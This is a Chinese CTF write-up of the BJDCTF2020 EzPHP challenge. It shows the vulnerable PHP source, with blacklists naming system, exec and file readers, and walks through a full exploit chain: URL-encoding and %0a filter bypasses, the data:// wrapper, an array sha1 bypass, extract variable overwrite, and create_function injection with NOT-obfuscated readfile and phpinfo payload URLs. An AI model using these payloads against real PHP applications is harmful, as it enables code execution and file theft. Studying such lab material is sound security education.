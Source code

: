 # \[BJDCTF2020]EzPHP

### \[BJDCTF2020]EzPHP

## 考点

* `$_SERVER` 获取HTTP传入参数的脆弱性
* `preg_match`脆弱性
* PHP伪协议bypass 字符串相同限制
* &#x20;create\_function创建匿名函数
* PHP7 取反bypass代码执行

## wp

F12给了提示，`base32`解码得到`1nD3x.php`

<div data-full-width="true">

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

访问得到源码

{% code overflow="wrap" lineNumbers="true" fullWidth="true" %}
```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?>
```
{% endcode %}

<mark style="background-color:red;">第一个</mark>`preg_match`在第15行

`$_SERVER['QUERY_STRING']`返回请求的参数和内容，访问`http://ip:port/1nD3x.php?shana=1&passwd=2`会返回`shana=1&passwd=2`，请求的参数有黑名单

<mark style="background-color:blue;">绕过</mark>`$_SERVER['QUERY_STRING']`不会对传入键值对进行解码，可以用URL编码绕过

<mark style="background-color:red;">第二个</mark>`preg_match`在第20行

GET请求的file参数不包含http或https

<mark style="background-color:red;">第三个</mark>`preg_match`在第21行

GET请求的debu参数必须是aqua\_is\_cute且不是aqua\_is\_cute

<mark style="background-color:blue;">绕过</mark>`preg_match`在非`/s`模式下，会忽略末尾的%0a，所以末尾加上%0a即可

`file=padding&debu=aqua_is_cute`

`%66%69%6c%65=%70%61%64%64%69%6e%67&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a`

<mark style="background-color:red;">第四个</mark>`preg_match`在第29行

$\_REQUEST获取所有GET和POST传入的参数和值，并以数组形式返回。

比如POST请求`http://ip:port/?a=1&d=4 POST b=2`会返回`array(3) { 'a' => string(1) "1" 'd' => string(1) "4" 'b' => string(1) "2" }`要求请求的值不含有英文字符

<mark style="background-color:blue;">绕过</mark>$\_REQUEST获取的参数默认POST优先级大于GET，所以POST再传入`file=1&debu=2`



<mark style="background-color:red;">第34行</mark>`if`语句要求`file_get_contents($file)`的内容必须为`debu_debu_aqua`

<mark style="background-color:blue;">绕过</mark>这个有两种方式绕过，一个是`php://input` 加POST `debu_debu_aqua` ，很明显不行

另一个就是`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute`

%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a



<mark style="background-color:red;">第38行</mark>`if`语句要求传入的shana和passwd值不同且sha1相同

<mark style="background-color:blue;">绕过</mark>用数组绕过

`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute&passwd[]=1&shana[]=2`

`%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32`

这里不需要再POST参数，因为GET传的是数组，<mark style="background-color:red;">第四个</mark>`preg_match`的$value也是个数组，`preg_match`遇到数组会报错

然后`extract($_GET["flag"]);`存在变量覆盖



<mark style="background-color:red;">第五个</mark>`preg_match`在第45行 i不区分大小写 s视为单行，匹配换行符 D让$总是匹配字符串的末尾

$arg有黑名单，$code不能由纯英文数字组成，必须形如var\_dump print\_r

这里使用变量覆盖对$code和$arg赋值

```
$code('', $arg);
```

这种形式就是create\_function()创建匿名函数，它会创建一个函数名为`\000lambda_(count(anonymous_functions)++)`，如`\000lambda_1`，的匿名函数，第一个参数为匿名函数的参数，第二个函数为代码

```php
create_function('$a,$b', $arg)

eval(
\000lambda_1($a,$b){
    $arg
}
)
```

$arg的黑名单有pi \* sess head 根据<mark style="background-color:purple;">无参RCE</mark>的思路能用的只剩get\_defined\_vars()

根据代码执行还可以用取反

所以在本题就是code=create\_function  arg=}var\_dump(get\_defined\_vars());//

或者arg=}(\~%8F%97%8F%96%91%99%90)();//

```
eval(
\000lambda_1(){
    }var_dump(get_defined_vars());//
}
)
```

`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute&passwd[]=1&shana[]=2&flag[code]=create_function&flag[arg]=}var_dump(get_defined_vars());//`

`%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32&%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}var_dump(get_defined_vars());//`

<figure><img src="../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

读取rea1fl4g.php

`readfile('rea1fl4g.php')`取反

{% code overflow="wrap" lineNumbers="true" %}
```
http://31e9b523-a95b-4c3a-8bd6-0a322f1d383f.node4.buuoj.cn:81/1nD3x.php?%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%70%61%73%73%77%64[]=%31&%73%68%61%6e%61[]=%32&%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}(~%8D%9A%9E%9B%99%96%93%9A)((~%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//

file=1&debu=2
```
{% endcode %}

## 小结

1. `$_SERVER['QUERY_STRING']`不会对传入键值对进行解码，可以用URL编码绕过
2. create\_function()创建匿名函数，它会创建一个函数名为`\000lambda_(count(anonymous_functions)++)`，如`\000lambda_1`，的匿名函数，第一个参数为匿名函数的参数，第二个函数为代码
3.  伪协议绕过字符串限制，一个是`php://input` 加POST `debu_debu_aqua` ，

    另一个就是`file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute`
4. `preg_match`在非`/s`模式下，会忽略末尾的%0a
5. `preg_match`传入数组会报错
